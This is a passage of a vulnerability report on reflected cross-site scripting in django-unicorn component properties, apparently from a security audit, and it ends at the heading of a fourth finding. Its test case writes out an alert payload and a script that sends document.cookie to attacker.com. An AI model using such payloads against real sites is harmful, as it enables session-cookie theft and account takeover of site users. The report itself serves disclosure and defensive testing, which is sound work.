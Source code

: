 #### 3. Vulnerability Name: Reflected Cross-Site Scripting (XSS) through Unsanitized Component Properties

- **Description:**
    1. Attacker injects JavaScript payload into a django-unicorn component property via malicious URL or input fields.
    2. `syncInput` action parser uses `set_property_value` to update component property with unsanitized value.
    3. Component template renders injected JavaScript payload without sanitization.
    4. User views page and injected JavaScript executes in browser, leading to XSS.
- **Impact:**
    - Account Takeover (session cookie theft)
    - Data Theft
    - Defacement
    - Redirection to Malicious Sites
- **Vulnerability Rank:** High
- **Currently Implemented Mitigations:**
    - Default HTML encoding for updated field values (mentioned in docs).
- **Missing Mitigations:**
    - No server-side input sanitization for user-provided data before storing in component properties.
    - Reliance on Django's template engine auto-escaping, bypassed by `safe` or custom template logic.
    - Lack of context-aware output encoding guidance in documentation.
- **Preconditions:**
    - Django-unicorn component renders user-controlled data from properties.
    - No explicit sanitization for user inputs in component Python code.
    - Potential misuse of `safe` meta attribute or template filters.
- **Source Code Analysis:**
    1. `django_unicorn\views\action_parsers\sync_input.py`: `handle` function extracts `property_name` and `property_value` and calls `set_property_value`.
    2. `django_unicorn\views\action_parsers\utils.py`: `set_property_value` directly sets `property_value` to component attribute without sanitization.
    3. `django_unicorn\components\unicorn_view.py`: `_set_property` directly assigns value to property, no sanitization.
    - Visualization:
        ```
        User Input (Malicious Script) --> HTTP Request (unicorn:model update) --> Django Unicorn Backend --> sync_input.py --> set_property_value() --> Component Property (Unsanitized) --> Template Rendering --> HTML Response (XSS Payload) --> User Browser (Script Execution)
        ```
- **Security Test Case:**
    1. Create `XssTestView` component with `message` property.
    2. Template: input bound to `message` and div displaying `{{ message }}`.
    3. Create Django view and template including component.
    4. Access page in browser.
    5. Inject `<script>alert("XSS Vulnerability");</script>` in input field.
    6. Observe alert box confirming XSS.
    7. Test cookie stealing payload `<script>window.location='http://attacker.com/cookie_steal?cookie='+document.cookie;</script>`.

#### 4. Vulnerability Name: Potential XSS vulnerability when using `safe` Meta option
